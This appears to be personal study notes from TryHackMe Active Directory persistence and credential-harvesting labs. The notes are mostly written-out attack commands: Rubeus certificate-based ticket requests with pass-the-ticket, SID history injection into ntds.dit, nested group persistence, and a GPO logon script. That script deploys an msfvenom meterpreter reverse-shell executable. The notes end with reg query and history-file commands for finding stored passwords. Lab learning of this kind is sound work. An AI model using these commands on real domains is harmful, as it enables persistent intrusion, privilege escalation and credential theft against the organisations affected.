     - C:\Tools\Rubeus.exe asktgt /user:Administrator /enctype:aes256 /certificate::pfx /password:Password123 /outfile:.kirbi /domain:za.tryhackme.loc /dc:
    - kerberos::ptt file.kirbi
  
### SID History
- Security Identifier
  - track principal + accounts access
  - enable access
  - inject Enterprise Admin SID
- Stop ntds service + inject sid history
  - stop-service -name ntds -force   
  - Add-ADDBSidHistory -SamAccountName 'username of our low-priveleged AD account' -SidHistory 'SID to add to SID History' -DatabasePath C:\Windows\NTDS\ntds.dit 
  - start-service -name ntds 

### Group membership
- Add user to AD group
  - IT Support
  - local administrator
- nested groups: groups within groups
  - New-ADGroup -Path "OU=IT,OU=People,DC=ZA,DC=TRYHACKME,DC=LOC" -Name "<username> Net Group 1" -SamAccountName "<username>_nestgroup1" -DisplayName "<username> Nest Group 1" -GroupScope Global -GroupCategory Security
  - Add-ADGroupMember -Identity "<username>_nestgroup3" -Members "<username>_nestgroup2"


### With Access Control List ACLs
- Add to templates
- runas /netonly /user:Administrator cmd.exe ==> inject Admin account
- Import-Module .\Invoke-ADSDPropagation.ps1  ==> force update

### GPS
- Group Policy Objects
  - restricited group membership
  - logon script deployment
- Reverse_shell
- 
```
- msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=persistad lport=4445 -f exe > <username>_shell.exe

- Batch file that will execute the script:
file.bat:
   - copy \\za.tryhackme.loc\sysvol\za.tryhackme.loc\scripts\<username>_shell.exe C:\tmp\<username>_shell.exe && timeout /t 20 && C:\tmp\<username>_shell.exe
```

- Create Policy that points to the script

### CREDENTIALS HARVESTING 
- obtainind login information
- extract credentials
- impersonation
- methods:
  - external: phishing
  - internal: extraction
- Clear text:
  - C:\Users\USER\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
  - reg query HKLM /f password /t REG_SZ /s
  - reg query HKLM /f password /t REG_SZ /s
  - Get-ADUser -Filter * -Properties * | select Name,Description,....
- Database
- Password Managers
- Memory dump